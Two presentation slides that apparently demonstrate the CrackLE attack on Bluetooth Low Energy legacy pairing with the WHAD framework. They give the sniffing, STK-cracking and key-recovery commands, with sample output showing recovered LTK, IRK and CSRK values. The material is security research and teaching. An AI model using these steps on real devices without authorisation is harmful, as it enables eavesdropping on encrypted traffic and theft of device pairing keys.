 
# CrackLE attack with WHAD


<img src="img/crackle.png" />
<ul>
<li> Sniffing the pairing process and the encrypted traffic:
</li>

```
$ wsniff -i uart0 ble -f | wdump pairing.pcap
```
<li> Recovering the Short Term Key (STK):
</li>

```
$ wplay pairing.pcap | wanalyze legacy_pairing_cracking
[✓] legacy_pairing_cracking → completed
  - tk:  00000000000000000000000000000000
  - stk:  11223344112233441122334411223344
```

---

# CrackLE attack with WHAD


<ul>

<li> Recovering the distributed keys (LTK, IRK, CSRK):
</li>

```
$ wplay --flush pairing.pcap -d -k 11223344112233441122334411223344 | wanalyze
[...]
[✓] ltk_distribution → completed
  - ltk:  2867a99de17e3548cc17cf16ef96050e
  - rand:  38a7dcd10a1a93c6
  - ediv:  29507

[✓] irk_distribution → completed
  - address:  74:da:ea:91:47:e3
  - irk:  13c3a68f113b764cc8e73f55fc52c002

[✓] csrk_distribution → completed
  - csrk:  c3062f93c91eef96354edcd70a1a0306
[...]
```

---